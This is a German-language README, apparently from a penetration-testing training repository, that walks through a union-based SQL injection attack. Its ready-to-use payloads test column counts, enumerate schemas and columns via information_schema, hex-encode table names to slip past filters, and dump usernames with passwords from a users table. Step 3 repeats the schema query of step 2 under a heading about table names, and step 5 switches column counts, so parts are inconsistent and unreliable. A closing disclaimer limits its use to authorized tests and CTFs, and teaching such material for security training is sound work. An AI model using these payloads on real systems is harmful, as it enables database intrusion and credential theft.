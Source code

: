 # Union-Based SQL Injection Attack

> Dieses Dokument beschreibt die Durchführung einer Union-Based. SQL-Injection zur Extraktion von Daten aus einer Datenbank.

## Ziel

Datenbankinformationen schrittweise über die `UNION SELECT`-Technik auslesen – insbesondere bei anfälligen Parametern wie z. B. `id`, `search`, `user`, etc.

---

## Beispielhafte Schritte zur Datenextraktion mit `GROUP_CONCAT`

1. **Test auf Verwundbarkeit mit UNION SELECT**
```sql
test' UNION SELECT 1,2,3 FROM table_name --
```

2. **Schemas (Datenbanken) anzeigen:**
```sql
test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --
```

3. **Tabellennamen der aktuellen Datenbank anzeigen:**
```sql
test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --
```

4. **Spaltennamen aus einer bestimmten Tabelle anzeigen (Klartextname):**
```sql
test' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' --
```

5. **Spaltennamen anzeigen mit Hex-Wert für Tabellenname (Bypass & Genauigkeit):**
```sql
test' UNION SELECT 1,2,3,4,group_concat(column_name),6 FROM information_schema.columns WHERE table_name=0x7573657273 --
```

💡 `users` in Hex: 0x7573657273
Tool für Umwandlung: [Codebeautify – String to Hex](https://codebeautify.org/string-hex-converter)

6. **Nutzerdaten ausgeben (z. B. Username & Passwort):**
```sql
test' UNION SELECT 1,group_concat(username,0x3a3a,password),3 FROM users --
```

---

## Hinweise
- `group_concat()` ist hilfreich zum Kombinieren mehrerer Ergebnisse in einer Zeile.

- Hexadezimaldarstellung (0x...) kann helfen, Filter oder Escaping-Probleme zu umgehen.

- Kommentare wie -- oder --+ beenden den ursprünglichen SQL-Befehl korrekt.

---

## Sicherheitshinweis

Dieses Wissen dient ausschließlich der legalen Anwendung im Rahmen von Penetration Tests mit ausdrücklicher Erlaubnis. Der Missbrauch kann strafrechtlich verfolgt werden.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!